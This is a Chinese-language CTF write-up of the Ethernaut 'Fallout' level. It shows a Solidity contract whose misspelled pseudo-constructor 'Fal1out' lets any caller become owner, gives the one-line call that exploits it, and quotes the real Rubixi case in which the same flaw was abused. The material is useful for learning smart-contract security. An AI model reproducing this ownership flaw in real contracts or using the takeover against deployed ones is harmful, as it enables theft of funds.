

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    // constructor 
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```


以前的solidity是跟Java一样，用跟类（合约名）同名的函数作为构造函数，但现在的版本都是直接写constructor的，所以这里考察的就是这个Fal1out拼错了，。。。 所以 Fal1out 只是一个普通函数，直接调用即可。


所以直接

```
await contract.Fal1out()
```

此时我们已经成为owner了，然后submit instance即可。


woc！！！：

```
That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.
```

